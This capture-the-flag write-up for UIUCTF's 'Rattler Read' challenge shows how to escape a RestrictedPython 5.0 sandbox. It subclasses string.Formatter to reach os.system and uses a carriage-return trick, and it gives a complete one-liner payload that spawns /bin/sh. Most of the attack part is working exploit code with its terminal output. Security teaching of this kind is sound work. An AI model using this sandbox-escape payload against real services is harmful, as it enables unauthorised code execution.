






# Rattler Read

Categories: pwn/pyjail, medium

Description:
> All these poisonous snakes keep biting me. Good think I remembered to bring restrictedpython to keep me safe!
>
>`$ nc rattler-read.chal.uiuc.tf 1337`
>
>author: Pete Stenger
>
>[handout](resources/handout.tar.gz)

**Tags:** python jail, pyjail, restrictedpython, string format RCE, `input()` tricks

## Takeaways

* `\r` instead of `\n` in `input()` to fake a new line in the python interpreter. This will reset the scope when chaining multiple expressions in the same line. For example the following are equivalent:
  ```python
  class Bazz: pass; x=1;\r y=1
  ```
  ```python
  class Bazz:
    x=1
  y=1
  ```
* String format vulnerability to RCE. We can execute arbitrary code on top of leaking stuff with the string format.

## Solution

### Jail analysis

Here is the source code of the challenge:

```python
from RestrictedPython import compile_restricted
from RestrictedPython import Eval
from RestrictedPython import Guards
from RestrictedPython import safe_globals
from RestrictedPython import utility_builtins
from RestrictedPython.PrintCollector import PrintCollector

def exec_poisonous(code):
    """Makes sure your code is safe to run"""

    def no_import(name, *args, **kwargs):
        raise ImportError("Don't ask another snake for help!")
    code += "\nresults = printed"
    byte_code = compile_restricted(
        code,
        filename="<string>",
        mode="exec",
    )
    policy_globals = {**safe_globals, **utility_builtins}
    policy_globals['__builtins__']['__metaclass__'] = type
    policy_globals['__builtins__']['__name__'] = type
    policy_globals['__builtins__']['__import__'] = no_import
    policy_globals['_getattr_'] = Guards.safer_getattr
    policy_globals['_getiter_'] = Eval.default_guarded_getiter
    policy_globals['_getitem_'] = Eval.default_guarded_getitem
    policy_globals['_write_'] = Guards.full_write_guard
    policy_globals['_print_'] = PrintCollector
    policy_globals['_iter_unpack_sequence_'] = Guards.guarded_iter_unpack_sequence
    policy_globals['_unpack_sequence_'] = Guards.guarded_unpack_sequence
    policy_globals['enumerate'] = enumerate
    exec(byte_code, policy_globals, None)
    return policy_globals["results"]

if __name__ == '__main__':
    print("Well, well well. Let's see just how poisonous you are..")
    print(exec_poisonous(input('> ')))
```

From the Dockerfile, the following lines are also interesting:

```dockerfile
FROM python:3.8.17-alpine as chroot
RUN python3.8 -m pip install RestrictedPython==5.0
```

As we can see, we are running inside a python jail with very limited functionality. Here are some relevant snippets form the restrictedpython library:

```python
# Guards.py
def _full_write_guard():
    # Nested scope abuse!
    # safetypes and Wrapper variables are used by guard()
    safetypes = {dict, list}
    Wrapper = _write_wrapper()

    def guard(ob):
        # Don't bother wrapping simple types, or objects that claim to
        # handle their own write security.
        if type(ob) in safetypes or hasattr(ob, '_guarded_writes'):
            return ob
        # Hand the object to the Wrapper instance, then return the instance.
        return Wrapper(ob)
    return guard
full_write_guard = _full_write_guard()

def guarded_setattr(object, name, value):
    setattr(full_write_guard(object), name, value)

def guarded_delattr(object, name):
    delattr(full_write_guard(object), name)

def safer_getattr(object, name, default=None, getattr=getattr):
    """Getattr implementation which prevents using format on string objects.

    format() is considered harmful:
    http://lucumr.pocoo.org/2016/12/29/careful-with-str-format/

    """
    if isinstance(object, _compat.basestring) and name == 'format':
        raise NotImplementedError(
            'Using format() on a %s is not safe.' % object.__class__.__name__)
    if name.startswith('_'):
        raise AttributeError(
            '"{name}" is an invalid attribute name because it '
            'starts with "_"'.format(name=name)
        )
    return getattr(object, name, default)

safe_builtins = {}

_safe_names = [
    'None',
    'False',
    'True',
    'abs',
    'bool',
    'callable',
    'chr',
    'complex',
    'divmod',
    'float',
    'hash',
    'hex',
    'id',
    'int',
    'isinstance',
    'issubclass',
    'len',
    'oct',
    'ord',
    'pow',
    'range',
    'repr',
    'round',
    'slice',
    'str',
    'tuple',
    'zip'
]
_safe_exceptions = [
    'ArithmeticError',
    'AssertionError',
    'AttributeError',
    'BaseException',
    'BufferError',
    'BytesWarning',
    'DeprecationWarning',
    'EOFError',
    'EnvironmentError',
    'Exception',
    'FloatingPointError',
    'FutureWarning',
    'GeneratorExit',
    'IOError',
    'ImportError',
    'ImportWarning',
    'IndentationError',
    'IndexError',
    'KeyError',
    'KeyboardInterrupt',
    'LookupError',
    'MemoryError',
    'NameError',
    'NotImplementedError',
    'OSError',
    'OverflowError',
    'PendingDeprecationWarning',
    'ReferenceError',
    'RuntimeError',
    'RuntimeWarning',
    'StopIteration',
    'SyntaxError',
    'SyntaxWarning',
    'SystemError',
    'SystemExit',
    'TabError',
    'TypeError',
    'UnboundLocalError',
    'UnicodeDecodeError',
    'UnicodeEncodeError',
    'UnicodeError',
    'UnicodeTranslateError',
    'UnicodeWarning',
    'UserWarning',
    'ValueError',
    'Warning',
    'ZeroDivisionError',
]
_safe_names.extend([
    '__build_class__',  # needed to define new classes
])
safe_builtins['setattr'] = guarded_setattr
safe_builtins['delattr'] = guarded_delattr
safe_builtins['_getattr_'] = safer_getattr
for name in _safe_names:
    safe_builtins[name] = getattr(builtins, name)
for name in _safe_exceptions:
    safe_builtins[name] = getattr(builtins, name)
safe_globals = {'__builtins__': safe_builtins}

## transformer.py
# For creation allowed magic method names. See also
# https://docs.python.org/3/reference/datamodel.html#special-method-names
ALLOWED_FUNC_NAMES = frozenset([
    '__init__',
    '__contains__',
    '__lt__',
    '__le__',
    '__eq__',
    '__ne__',
    '__gt__',
    '__ge__',
])
FORBIDDEN_FUNC_NAMES = frozenset([
    'print',
    'printed',
    'builtins',
    'breakpoint',
])
```

Let's enable `dir` and see what globals we actually have available:

```log
nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> print(dir())
['__builtins__', '_getattr_', '_getitem_', '_getiter_', '_iter_unpack_sequence_', '_print', '_print_', '_unpack_sequence_', '_write_', 'dir', 'enumerate', 'frozenset', 'math', 'random', 'reorder', 'same_type', 'set', 'string', 'test', 'whrandom']
```

Here are our observations:

* The `import` statement is banned
* We cannot access attributes that start with `_` because of `safer_getattr`. Interestingly, we also cannot use the string `.format` function.
* We cannot add arbitrary attributes to objects because they need to be whitelisted with the `_guarded_writes`
* `compile_restricted` does not allow us to use variables that start with underscore (e.g. `__builtins__`)
* `compile_restricted` does not allow us to use the Walrus operator (`:=`)
* `compile_restricted` places restrictions (`ALLOWED_FUNC_NAMES`, `FORBIDDEN_FUNC_NAMES`) on a few identifiers.

### Vulnerability identification

So where should we look at? Since the challenges uses the specific `RestrictedPython==5.0` version, I immediately thought what is the latest current available version. And the latest version at the time of the challenge was 6.0. So, I searched for CVEs in restrictedpython and came up with some interesting results:

*(Side note: Another approach is to diff the latest version with version 5.0 to try to spot bugs)*

[CVE-2021-32811](https://github.com/advisories/GHSA-g4gq-j4p2-j8fr) showed up, which an RCE on the `Zope` package, that uses underneath `restrictedpython`. This is linked to [CVE-2021-32807](https://github.com/zopefoundation/AccessControl/security/advisories/GHSA-qcx9-j53g-ccgf), which states the following:

> The module `AccessControl` defines security policies for Python code used in restricted code within Zope applications. Restricted code is any code that resides in Zope's object database, such as the contents of Script (Python) objects.
>
>The policies defined in `AccessControl` severely restrict access to Python modules and only exempt a few that are deemed safe, such as Python's `string` module. **However, full access to the `string` module also allows access to the class `Formatter`, which can be overridden and extended within `Script (Python)` in a way that provides access to other unsafe Python libraries. Those unsafe Python libraries can be used for remote code execution.**

In our jail, we have access to the `string` module as shown above and let's check if we can acess the `Formatter` class:

```log
nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> print(string.Formatter)
<class 'string.Formatter'>
```

So, we actually have access! Let's try a couple string formats:

```log
nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> print('{0.x}'.format([]))
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/site-packages/RestrictedPython/Guards.py", line 267, in safer_getattr
    raise NotImplementedError(
NotImplementedError: Using format() on a str is not safe.

nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> formatter = string.Formatter(); x=formatter.format("{0.ascii_lowercase}", string); print(x)
abcdefghijklmnopqrstuvwxyz

nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> formatter = string.Formatter(); x=formatter.format("{0.Formatter.__init__}", string); print(x)
<slot wrapper '__init__' of 'object' objects>

nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> print(string.Formatter.__init__)
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/site-packages/RestrictedPython/compile.py", line 214, in compile_restricted
    raise SyntaxError(result.errors)
SyntaxError: ('Line 1: "__init__" is an invalid attribute name because it starts with "_".',)
```

And it actually worked! We have a string format vulnerability! And in this way, we also found a primitive that allows us to access attributes with the underscore (`_`).

### Exploit generation

The next step is to figure out how to access the `os` module in order to reach the `system` function and pop a shell. Here is a reminder of the available globals that we have:

```python
['__builtins__', '_getattr_', '_getitem_', '_getiter_', '_iter_unpack_sequence_', '_print', '_print_', '_unpack_sequence_', '_write_', 'dir', 'enumerate', 'frozenset', 'math', 'random', 'reorder', 'same_type', 'set', 'string', 'test', 'whrandom']
```

So, what we do is that we manually inspect the modules recursively until we find one that imports `os`. Then we check for available classes and access the `os` module via `module.class.__init__.globals`, as `os` has been imported in the current module. For example, `random` imports `os` and defines the class `Random` which serves our purpose:





*(Side note: We do not want `<slot wrapper '__init__' of 'object' objects>` but instead we are looking for a `<function XXX.YYY.__init__(self, ...)>`. The `<slot wrapper>` does not have a `__globals__` attribute.)*

So, after some manual search, we reach the `os` module which contains the `system` function:

```python
In [2]: random.Random.__init__.__globals__['_os'].system
Out[2]: <function posix.system(command)>
```

```log
nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> print(string.Formatter().format("{0.Random.__init__.__globals__[_os].system}", random))
<built-in function system>

nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> print(string.Formatter().format("{0.Random.__init__.__globals__[_os].system('ls')}", random))
Traceback (most recent call last):
  File "/home/fane/ctfs/uiuctf23/pwn/rattler-read/main.py", line 171, in <module>
    print(exec_poisonous(inp))
  File "/home/fane/ctfs/uiuctf23/pwn/rattler-read/main.py", line 45, in exec_poisonous
    exec(byte_code, policy_globals, None)
  File "<string>", line 1, in <module>
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/string.py", line 161, in format
    return self.vformat(format_string, args, kwargs)
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/string.py", line 165, in vformat
    result, _ = self._vformat(format_string, args, kwargs, used_args, 2)
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/string.py", line 205, in _vformat
    obj, arg_used = self.get_field(field_name, args, kwargs)
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/string.py", line 276, in get_field
    obj = getattr(obj, i)
AttributeError: module 'os' has no attribute 'system('ls')'
```

However, as we can see above, we cannot invoke functions inside the string format as they are interpreted as attributes. There is simply no syntax support for this and it also occurs by reading the code of `string.Formatter`. But, by also reading the source of `string.Formatter`, the following occurs:

```python
class Formatter:
    # ...
    # given a field_name, find the object it references.
    #  field_name:   the field being looked up, e.g. "0.name"
    #                 or "lookup[3]"
    #  used_args:    a set of which args have been used
    #  args, kwargs: as passed in to vformat
    def get_field(self, field_name, args, kwargs):
        first, rest = _string.formatter_field_name_split(field_name)
        obj = self.get_value(first, args, kwargs)

        # loop through the rest of the field_name, doing
        #  getattr or getitem as needed
        for is_attr, i in rest:
            if is_attr:
                obj = getattr(obj, i)
            else:
                obj = obj[i]

        return obj, first
```

The documentation also states the following:

> In addition, the Formatter defines a number of methods that are intended to be **replaced by subclasses**:
>
>`get_field(field_name, args, kwargs)` - Given `field_name` as returned by `parse()` (see above), convert it to an object to be formatted. Returns a tuple `(obj, used_key)`. The default version takes strings of the form defined in PEP 3101, such as “0[name]” or “label.title”. `args` and `kwargs` are as passed in to `vformat()`. The return value `used_key` has the same meaning as the key parameter to `get_value()`.

Aha! So the `string.Formatter` class has a function which returns the object from the attribute that we request. For example, if we request `format("{0.Random.__init__.__globals__[_os].system}", random)`, then the `obj` returned will be `<function posix.system(command)>`. In this way, if we override `get_field` with a custom one, we can leverage the returned value of the super class and get access to the object.

We also see at this point why we *can* access attributes with underscore (`_`), even though restrictedpython has banned them. `get_field` uses directly the global `getattr` and no restriction has been imposed by `restrictedpython` at this used global at this stage. So, let's create our subclass and test in an interpreter:

```python
import random
import string
import sys
class Baz(string.Formatter):
    def get_field(self, field_name, args, kwargs):
        obj, first = super().get_field(field_name, args, kwargs)
        sys.stdout.write(f'{first=} {obj=}') # print() did not work here
        return obj, first
Baz().format("{0.Random.__init__.__globals__[_os].system}", random)

# interpreter output
Out[12]: first=0 obj=<built-in function system>'<built-in function system>'
```

As we can see, `get_field` converts the `"0"` field name to the evaluated expression: `random.Random.__init__.__globals__['_os'].system`. So, let's modify our payload to pop a shell:

```python
import random
import string
import sys
class Baz(string.Formatter):
    def get_field(self, field_name, args, kwargs):
        obj, first = super().get_field(field_name, args, kwargs)
        obj('/bin/sh')
        return obj, first
Baz().format("{0.Random.__init__.__globals__[_os].system}", random)
```



And success! We have a shell locally in our interpreter!

### Converting the exploit to a one liner

The final thing is to convert our payload to a one liner. This is because our payload is read via `input()` and fed to `exec()`. We can use multiple statements, e.g. chained via `;`, but the payload has to be a single line.

```log
nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> class Baz(string.Formatter): pass; get_field = (lambda self, field_name, args, kwargs: super().get_field(field_name, args, kwargs)[0](('/bin/sh')), ''); Baz().format("{0.Random.__init__.__globals__[_os].system}", random)
Traceback (most recent call last):
  File "main.py", line 171, in <module>
    print(exec_poisonous(inp))
  File "main.py", line 45, in exec_poisonous
    exec(byte_code, policy_globals, None)
  File "<string>", line 1, in <module>
  File "<string>", line 1, in Baz
NameError: name 'Baz' is not defined
```

Hmm.. That's interesting. Let's try the one liner in our local interpreter:

```python
In [3]: class Baz(string.Formatter): pass; get_field = (lambda self, field_name, args, kwargs: sup
   ...: er().get_field(field_name, args, kwargs)[0](('/bin/sh')), ''); Baz().format("{0.Random.__i
   ...: nit__.__globals__[_os].system}", random)
---------------------------------------------------------------------------
NameError                                 Traceback (most recent call last)
Cell In[3], line 1
----> 1 class Baz(string.Formatter): pass; get_field = (lambda self, field_name, args, kwargs: super().get_field(field_name, args, kwargs)[0](('/bin/sh')), ''); Baz().format("{0.Random.__init__.__globals__[_os].system}", random)

Cell In[3], line 1, in Baz()
----> 1 class Baz(string.Formatter): pass; get_field = (lambda self, field_name, args, kwargs: super().get_field(field_name, args, kwargs)[0](('/bin/sh')), ''); Baz().format("{0.Random.__init__.__globals__[_os].system}", random)

NameError: name 'Baz' is not defined
```

Same error: `NameError: name 'Baz' is not defined`! Let's do some more investigation to why this happens:



Aha! As we can see, the scoping changes because we are inside the `Baz` class. We will use a trick here to fool `exec` to reset the scope while still preserving `input()` open. With the character `\r` we can achieve exactly that. This is demonstrated below:



So, let's adapt once again our payload:

```log
nikos@ctf-box:~$ echo -e 'class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (super().get_field(field_name, args, kwargs)[0]("/bin/sh"), ""); \rBaz().format("{0.Random.__init__.__globals__[_os].system}", random)' | python main.py
Well, well well. Let's see just how poisonous you are..
Traceback (most recent call last):
  File "main.py", line 171, in <module>
    print(exec_poisonous(inp))
  File "main.py", line 45, in exec_poisonous
    exec(byte_code, policy_globals, None)
  File "<string>", line 2, in <module>
  File "/home/fane/.pyenv/versions/3.8.13/lib/python3.8/string.py", line 163, in format
    return self.vformat(format_string, args, kwargs)
  File "/home/fane/.pyenv/versions/3.8.13/lib/python3.8/string.py", line 167, in vformat
    result, _ = self._vformat(format_string, args, kwargs, used_args, 2)
  File "/home/fane/.pyenv/versions/3.8.13/lib/python3.8/string.py", line 207, in _vformat
    obj, arg_used = self.get_field(field_name, args, kwargs)
  File "<string>", line 1, in <lambda>
NameError: name 'super' is not defined
```

Hmm.. The `super` global is not available. So, let's adapt our payload for a final time to circumvent that and also maintain `stdin` open. So our final payload is:

`{ echo -e 'class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (string.Formatter.get_field(self, field_name, args, kwargs)[0]("/bin/sh"), ""); \rBaz().format("{0.Random.__init__.__globals__[_os].system}", random)'; cat; } | python main.py`

Let's throw that into the remote to get the flag!



`uiuctf{damn_1_8te_my_ta1l_ag41n}`
